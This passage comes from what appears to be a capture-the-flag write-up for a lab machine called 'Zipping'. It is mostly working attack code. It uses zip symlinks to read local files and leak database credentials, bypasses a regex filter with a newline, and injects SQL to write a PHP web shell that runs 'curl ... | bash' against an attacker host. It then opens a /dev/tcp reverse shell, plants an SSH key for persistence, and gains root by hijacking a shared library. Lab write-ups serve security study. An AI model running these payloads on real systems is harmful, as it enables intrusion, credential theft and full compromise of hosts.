#CURL_PROXY="--proxy http://127.0.0.1:8080" # burpsuite proxy, for debug
CURL_PROXY=""

Response=""
Response=$( curl -s $CURL_PROXY -X POST -F "zipFile=@${inputZip}" http://${TARGET}/upload.php -F "submit=" )

#echo ${Response}

# extract the target link
UploadItem=""
UploadItem=$( echo $Response | grep -Eo "uploads\/[a-z0-9]*\/[a-z\.]*\.php.\.pdf" | head -n 1)
echo ${UploadItem}
UploadItem=$( echo $UploadItem | cut -d ' ' -f 1 )
echo ${UploadItem}

curl http://${TARGET}/${UploadItem}
```

### Exploitation - shop

[http://10.10.11.229/shop/]((http://10.10.11.229//shop)


We can use the LFI to read the code behind this page, located in the `shop` folder :

```bash
#!/bin/bash

inputZip=cv.zip

CURL_PROXY="--proxy http://127.0.0.1:8080"
CURL_PROXY=""

rm -f ${inputZip}

ln -sf /var/www/html/shop/index.php  cv.pdf
zip --symlinks ${inputZip} cv.pdf

Response=""
Response=$( curl -s $CURL_PROXY -X POST -F "zipFile=@${inputZip}" http://${TARGET}/upload.php -F "submit=" )

UploadItem=""
UploadItem=$( echo $Response | grep -Eo "uploads\/[a-z0-9]*\/[a-z\.]*\.pdf" | head -n 1)
#echo ${UploadItem}
UploadItem=$( echo $UploadItem | cut -d ' ' -f 1 )
echo ${UploadItem}

UploadItem="uploads/$( md5sum cv.zip | cut -d ' ' -f 1)/cv.pdf"
echo ${UploadItem}

curl http://${TARGET}/${UploadItem}
```

`index.php` :

```bash
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

same with `functions.php` :

```bash
#!/bin/bash

inputZip=cv.zip

CURL_PROXY="--proxy http://127.0.0.1:8080"
CURL_PROXY=""

rm -f ${inputZip}

ln -sf /var/www/html/shop/functions.php  cv.pdf
zip --symlinks ${inputZip} cv.pdf

Response=""
Response=$( curl -s $CURL_PROXY -X POST -F "zipFile=@${inputZip}" http://${TARGET}/upload.php -F "submit=" )

UploadItem=""
UploadItem=$( echo $Response | grep -Eo "uploads\/[a-z0-9]*\/[a-z\.]*\.pdf" | head -n 1)
#echo ${UploadItem}
UploadItem=$( echo $UploadItem | cut -d ' ' -f 1 )
echo ${UploadItem}

UploadItem="uploads/$( md5sum cv.zip | cut -d ' ' -f 1)/cv.pdf"
echo ${UploadItem}

curl http://${TARGET}/${UploadItem}
```

```bash
<?php
function pdo_connect_mysql() {
    // Update the details below with your MySQL details
    $DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
    try {
        return new PDO('mysql:host=' . $DATABASE_HOST . ';dbname=' . $DATABASE_NAME . ';charset=utf8', $DATABASE_USER, $DATABASE_PASS);
    } catch (PDOException $exception) {
        // If there is an error with the connection, stop the script and display the error.
        exit('Failed to connect to database!');
    }
}
// Template header, feel free to customize this
function template_header($title) {
$num_items_in_cart = isset($_SESSION['cart']) ? count($_SESSION['cart']) : 0;
echo <<<EOT
<!DOCTYPE html>
<html>
        <head>
                <meta charset="utf-8">
                <title>$title</title>
                <link href="assets/style.css" rel="stylesheet" type="text/css">
                <link rel="stylesheet" href="https://use.fontawesome.com/releases/v5.7.1/css/all.css">
        </head>
        <body>
        <header>
            <div class="content-wrapper">
                <a href=".." style="text-decoration: none;"><h1>Zipping Watch Store</h1></a>
                <nav>
                    <a href="index.php">Home</a>
                    <a href="index.php?page=products">Products</a>
                </nav>
                <div class="link-icons">
                    <a href="index.php?page=cart">
                                                <i class="fas fa-shopping-cart"></i>
                                                <span>$num_items_in_cart</span>
                                        </a>
                </div>
            </div>
        </header>
        <main>
EOT;
}
// Template footer
function template_footer() {
$year = date('Y');
echo <<<EOT
        </main>
        <footer>
            <div class="content-wrapper">
                <p>&copy; $year, Zipping Watch Store</p>
            </div>
        </footer>
    </body>
</html>
EOT;
}
?>
```

We can note the database credential :

```text
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
```

When selecting a product, we are directed to this page :

[http://10.10.11.229/shop/index.php?page=product&id=3](http://10.10.11.229/shop/index.php?page=product&id=3)


There is also the cart page :

[http://10.10.11.229/shop/index.php?page=cart](http://10.10.11.229/shop/index.php?page=cart)


From the URL, this redirect to page `cart.php`, and `product.php`. we can use the LFI again to explore theses files in the `shop` folder :

`product.php` :

```php
<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>

<?=template_header('Zipping | Product')?>

<div class="product content-wrapper">
    " width="500" height="500" alt="<?=$product['name']?>">
    <div>
        <h1 class="name"><?=$product['name']?></h1>
        <span class="price">
            &dollar;<?=$product['price']?>
            <?php if ($product['rrp'] > 0): ?>
            <span class="rrp">&dollar;<?=$product['rrp']?></span>
            <?php endif; ?>
        </span>
        <form action="index.php?page=cart" method="post">
            <input type="number" name="quantity" value="1" min="1" max="<?=$product['quantity']?>" placeholder="Quantity" required>
            <input type="hidden" name="product_id" value="<?=$product['id']?>">
            <input type="submit" value="Add To Cart">
        </form>
        <div class="description">
            <?=$product['desc']?>
        </div>
    </div>
</div>

<?=template_footer()?>
```

`cart.php` :

```php
<?php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if ($product && $quantity > 0) {
            // Product exists in database, now we can create/update the session variable for the cart
            if (isset($_SESSION['cart']) && is_array($_SESSION['cart'])) {
                if (array_key_exists($product_id, $_SESSION['cart'])) {
                    // Product exists in cart so just update the quanity
                    $_SESSION['cart'][$product_id] += $quantity;
                } else {
                    // Product is not in cart so add it
                    $_SESSION['cart'][$product_id] = $quantity;
                }
            } else {
                // There are no products in cart, this will add the first product to cart
                $_SESSION['cart'] = array($product_id => $quantity);
            }
        }
        // Prevent form resubmission...
        header('location: index.php?page=cart');
        exit;
    }
}

// Remove product from cart, check for the URL param "remove", this is the product id, make sure it's a number and check if it's in the cart
if (isset($_GET['remove']) && is_numeric($_GET['remove']) && isset($_SESSION['cart']) && isset($_SESSION['cart'][$_GET['remove']])) {

    // Remove the product from the shopping cart
    unset($_SESSION['cart'][$_GET['remove']]);
}

// Update product quantities in cart if the user clicks the "Update" button on the shopping cart page
if (isset($_POST['update']) && isset($_SESSION['cart'])) {
    // Loop through the post data so we can update the quantities for every product in cart
    foreach ($_POST as $k => $v) {
        if (strpos($k, 'quantity') !== false && is_numeric($v)) {
            $id = str_replace('quantity-', '', $k);
            $quantity = (int)$v;
            // Always do checks and validation
            if (is_numeric($id) && isset($_SESSION['cart'][$id]) && $quantity > 0) {
                // Update new quantity
                $_SESSION['cart'][$id] = $quantity;
            }
        }
    }
    // Prevent form resubmission...
    header('location: index.php?page=cart');
    exit;
}

// Send the user to the place order page if they click the Place Order button, also the cart should not be empty
if (isset($_POST['placeorder']) && isset($_SESSION['cart']) && !empty($_SESSION['cart'])) {
    header('Location: index.php?page=placeorder');
    exit;
}

if (isset($_POST['clear'])) {
        unset($_SESSION['cart']);
}

// Check the session variable for products in cart
$products_in_cart = isset($_SESSION['cart']) ? $_SESSION['cart'] : array();
$products = array();
$subtotal = 0.00;
// If there are products in cart
if ($products_in_cart) {
    // There are products in the cart so we need to select those products from the database
    // Products in cart array to question mark string array, we need the SQL statement to include IN (?,?,?,...etc)
    $array_to_question_marks = implode(',', array_fill(0, count($products_in_cart), '?'));
    $stmt = $pdo->prepare('SELECT * FROM products WHERE id IN (' . $array_to_question_marks . ')');
    // We only need the array keys, not the values, the keys are the id's of the products
    $stmt->execute(array_keys($products_in_cart));
    // Fetch the products from the database and return the result as an Array
    $products = $stmt->fetchAll(PDO::FETCH_ASSOC);
    // Calculate the subtotal
    foreach ($products as $product) {
        $subtotal += (float)$product['price'] * (int)$products_in_cart[$product['id']];
    }
}
?>

<?=template_header('Zipping | Cart')?>

<div class="cart content-wrapper">
    <h1>Shopping Cart</h1>
    <form action="index.php?page=cart" method="post">
        <table>
            <thead>
                <tr>
                    <td colspan="2">Product</td>
                    <td>Price</td>
                    <td>Quantity</td>
                    <td>Total</td>
                </tr>
            </thead>
            <tbody>
                <?php if (empty($products)): ?>
                <tr>
                    <td colspan="5" style="text-align:center;">You have no products added in your Shopping Cart</td>
                </tr>
                <?php else: ?>
                <?php foreach ($products as $product): ?>
                <tr>
                    <td class="img">
                        <a href="index.php?page=product&id=<?=$product['id']?>">
                            " width="50" height="50" alt="<?=$product['name']?>">
                        </a>
                    </td>
                    <td>
                        <a href="index.php?page=product&id=<?=$product['id']?>"><?=$product['name']?></a>
                        <br>
                        <a href="index.php?page=cart&remove=<?=$product['id']?>" class="remove">Remove</a>
                    </td>
                    <td class="price">&dollar;<?=$product['price']?></td>
                    <td class="quantity">
                        <input type="number" name="quantity-<?=$product['id']?>" value="<?=$products_in_cart[$product['id']]?>" min="1" max="<?=$product['quantity']?>" placeholder="Quantity" required>
                    </td>
                    <td class="price">&dollar;<?=$product['price'] * $products_in_cart[$product['id']]?></td>
                </tr>
                <?php endforeach; ?>
                <?php endif; ?>
            </tbody>
        </table>
        <div class="subtotal">
            <span class="text">Subtotal</span>
            <span class="price">&dollar;<?=$subtotal?></span>
        </div>
        <div class="buttons">
            <input type="submit" value="Update" name="update">
            <input type="submit" value="Place Order" name="placeorder">
            <input type="submit" value="Clear" name="clear" onsubmit="">
        </div>
    </form>
</div>

<?=template_footer()?>
```

We can notice at several places the use of a validation regex :

```php
if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
```

This regex will consider the input page is not valid if any of the condition is verified :

- containing invalid character : `[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]`
- or not ending with a digit: `[^0-9]$`

Reference: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-).

we could use line feed to escape this filter. 

Since the product id is directly used in a SQL query, we can execute system commands with this :

[https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#mysql](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#mysql)

From : [http://10.10.11.229/shop/index.php?page=product&id=3](http://10.10.11.229/shop/index.php?page=product&id=3)

we could use a payload looking like :

```sql
<line feed>
';select '<?php system("curl -s http://10.10.14.23:9090/shell.php"); ?>' into outfile '/path_to/shell.php' #1
```

The line-feed will escape the first filter, and the trailing number will escape the second filter.

This will write a PHP file `shell.php`, from the mysql service (mysql user). When executed, this PHP file will download an other PHP file `shell.php`.

With this exploit, we could then call this PHP page like : [http://10.10.11.229/shop/index.php?page=/path_to/shell.php](http://10.10.11.229/shop/index.php?page=/path_to/shell.php)

In order to provide this payload in the URL, we can use cyberchef to URL Encode this payload (Encode all special chars) :

```php
%0A%27%3Bselect%20%27%3C%3Fphp%20system%28%22curl%20%2Ds%20http%3A%2F%2F10%2E10%2E14%2E23%3A9090%2Fshell%2Ephp%22%29%3B%20%3F%3E%27%20into%20outfile%20%27%2Fvar%2Flib%2Fmysql%2Fshell%2Ephp%27%20%231
```

Since this is the mysql user that will write the file, it should not have write access to `/var/www/`. instead, we can use the folder `/var/lib/mysql` that this user should have write access.

As a result, when calling, we have a response : "Product does not exist!" :


We can try to calli the payload :

```shell
curl 'http://10.10.11.229/shop/index.php?page=../../../../../../../../../var/lib/mysql/shell.php
```

but this do not seem to work (receive no HTTP on our attacker box).

we can simply it and use a ping command :

```text
GET /shop/index.php?page=product&id=%0a';select+'<%3fphp+system("ping+10.10.14.23");%3f>'+into+outfile+'/var/lib/mysql/shell44.php'+%231 HTTP/1.1
```

Then call it :

```shell
curl -v 'http://10.10.11.229/shop/index.php?page=../../../../../../var/lib/mysql/shell44'
```

We can use tcpdump and see that we have some incoming ping requests ! this works !

Same with an absolute path when calling the exploit :

```shell
curl -v 'http://10.10.11.229/shop/index.php?page=/var/lib/mysql/shell44'
```

This is OK too

Now we want to execute some real command, and move for a reverse shell.

Let's automate it !

```bash

# Id to get a unique one
Id=$RANDOM
# create the payload
echo 'sh -i >& /dev/tcp/10.10.14.23/9001 0>&1' > shell
# create a remote PHP file to load the payload, and execute it
curl -s "http://10.10.11.229/shop/index.php?page=product&id=%0a';select+'<%3fphp+system(\"curl+-s+http://10.10.14.23:9090/shell|bash\");%3f>'+into+outfile+'/var/lib/mysql/shell${Id}.php'+%231"
# trigger the payload
curl -v "http://10.10.11.229/shop/index.php?page=/var/lib/mysql/shell${Id}"
```

serve with `updog` (on port 9090)

start a listener :

```shell
rlwrap -cAr nc -lvnp 9001
```

When executing, we have a working reverse shell :


### Maintaining access

Since port 22 is open for ssh access. let’s generate access keys !

```shell
ssh-keygen -t rsa -b 4096 -f zipping
```

```shell
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDW3/K2CicO+BRWzePGBgDNxP+0TG0nn7xkg8JtExMsTmdxu6eLGUV6g/STiHdKRymOiojGc4oW/YgWM+of7AFADFcoXOasZPUYot6+vf/hWCfdki6KN5/E6yCfFKtCIDgP/GFaDnSaqYz+dJvfJm3Lo0/0pr1/CwEHDNbnc/iQAaf8kdXB7J6mvwfx57TlcH0AtM8gClIM9qYWrhIXkJUtP8nblgZDYgqyxIfT2YuCWc3P8YeR1QgNqkZsW8MIAa26OPaEqmZHJqyDDB1jGiu+bvWKh+JuzoAt2szwqtPCuRmoATG1Xl+SmjhlNWlP0CxvE4at0MjN1r6AZ2OpGrC/BOBaUcfI//u5xEhHJaAZ/1ARgeFmuWkHTpsj6fX6ftsuIqcpJx0Ph38D8Zo4gi9Qg2m41vo6tfTchdbDkRdV/+ZV/67y9H+BfuEQgSHnuZLZtwJlvs6P/eqZaBMmDVNInQP6/V4m2GUQBim1+wd6FgVh6yWhvo285nZK8NYL1/MVyjE4yxr/Fl1ljWPRHDhqlZyHz/HAHh0rSGiuQIqfgaN1bFSJ8CCqOZSgHF/My53SgUQCKIAy0Xlp7e8tmkpvc0yUygx7pssmphZ6rKkxTP5hW7Iix9kO8dTwA3sxe4zBDmdY687/1PBnencWhH1W7Ur2gVlo6R6zOX2OkNQBzw== root@exegol-htb" >> /home/rektsu/.ssh/authorized_keys
```

and open the connection :

```shell
ssh [rektsu@10.10.11.229](mailto:rektsu@10.10.11.229) -i zipping
```

## Post-Exploitation

### Host Reconnaissance

We are on current user : rektsu

Let's watch sudo rights:

```shell
sudo -l
```

```text
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

What is this `stock` ?

```shell
file  /usr/bin/stock
```

```text
/usr/bin/stock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa34d8030176fe286f8011c9d4470714d188ab42, for GNU/Linux 3.2.0, not stripped
```

This a binary file, not a script, so let's see it's internal strings to get a quick averview :

```shell
string /usr/bin/stock
```

```text
PTE1
u+UH
Hakaize
St0ckM4nager
/root/.stock.csv
Enter the password:
Invalid password, please try again.
================== Menu ==================
1) See the stock
2) Edit the stock
3) Exit the program
Select an option:
You do not have permissions to read the file
File could not be opened.
================== Stock Actual ==================
Colour     Black   Gold    Silver
Amount     %-7d %-7d %-7d
Quality   Excelent Average Poor
Amount    %-9d %-7d %-4d
Exclusive Yes    No
Amount    %-4d   %-4d
Warranty  Yes    No
================== Edit Stock ==================
Enter the information of the watch you wish to update:
Colour (0: black, 1: gold, 2: silver):
Quality (0: excelent, 1: average, 2: poor):
Exclusivity (0: yes, 1: no):
Warranty (0: yes, 1: no):
Amount:
Error: The information entered is incorrect
%d,%d,%d,%d,%d,%d,%d,%d,%d,%d
The stock has been updated correctly.
;*3$"
```

This application will request a password ("Enter the password:"). We can find some strange strings (clear passwords ?) :

```bash
Hakaize
St0ckM4nager
```

This seems to manage the stock for the shop, with a CSV file `/root/.stock.csv`.

Now, let's go deeper in this executable, and show what it does, what is hudden :

```shell
strace stock
```

```text
execve("/usr/bin/stock", ["stock"], 0x7ffc79a86750 /* 20 vars */) = 0
brk(NULL)                               = 0x56280eca5000
arch_prctl(0x3001 /* ARCH_??? */, 0x7ffc51642820) = -1 EINVAL (Invalid argument)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fef5af98000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
newfstatat(3, "", {st_mode=S_IFREG|0644, st_size=18225, ...}, AT_EMPTY_PATH) = 0
mmap(NULL, 18225, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7fef5af93000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\3206\2\0\0\0\0\0"..., 832) = 832
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
newfstatat(3, "", {st_mode=S_IFREG|0644, st_size=2072888, ...}, AT_EMPTY_PATH) = 0
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
mmap(NULL, 2117488, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7fef5ac00000
mmap(0x7fef5ac22000, 1544192, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x22000) = 0x7fef5ac22000
mmap(0x7fef5ad9b000, 356352, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x19b000) = 0x7fef5ad9b000
mmap(0x7fef5adf2000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1f1000) = 0x7fef5adf2000
mmap(0x7fef5adf8000, 53104, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7fef5adf8000
close(3)                                = 0
mmap(NULL, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fef5af90000
arch_prctl(ARCH_SET_FS, 0x7fef5af90740) = 0
set_tid_address(0x7fef5af90a10)         = 19633
set_robust_list(0x7fef5af90a20, 24)     = 0
rseq(0x7fef5af91060, 0x20, 0, 0x53053053) = 0
mprotect(0x7fef5adf2000, 16384, PROT_READ) = 0
mprotect(0x56280cd7b000, 4096, PROT_READ) = 0
mprotect(0x7fef5afce000, 8192, PROT_READ) = 0
prlimit64(0, RLIMIT_STACK, NULL, {rlim_cur=8192*1024, rlim_max=RLIM64_INFINITY}) = 0
munmap(0x7fef5af93000, 18225)           = 0
newfstatat(1, "", {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0), ...}, AT_EMPTY_PATH) = 0
getrandom("\x6d\x6a\x0d\x3b\x45\x07\x25\xe9", 8, GRND_NONBLOCK) = 8
brk(NULL)                               = 0x56280eca5000
brk(0x56280ecc6000)                     = 0x56280ecc6000
newfstatat(0, "", {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0), ...}, AT_EMPTY_PATH) = 0
write(1, "Enter the password: ", 20Enter the password: )    = 20
read(0, St0ckM4nager
"St0ckM4nager\n", 1024)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
write(1, "\n================== Menu ======="..., 44
================== Menu ==================
) = 44
write(1, "\n", 1
)                       = 1
write(1, "1) See the stock\n", 171) See the stock
)      = 17
write(1, "2) Edit the stock\n", 182) Edit the stock
)     = 18
write(1, "3) Exit the program\n", 203) Exit the program
)   = 20
write(1, "\n", 1
)                       = 1
write(1, "Select an option: ", 18Select an option: )      = 18
read(0,
```

We notice:

```text
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

### Privilege Escalation

Since the `stock` application is trying to load a library, we can build a library that will execute some code when loaded.

Reference: [https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)

```shell
# generate the C code
cat <<EOF > x.c
> #include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
> EOF

# compile
gcc -fPIC -shared -o /home/rektsu/.config/libcounter.so x.c -nostartfiles
```

There are a few compilation warning, but that's OK. We can execute this application with sudo to get a shell :

```shell
sudo stock
```


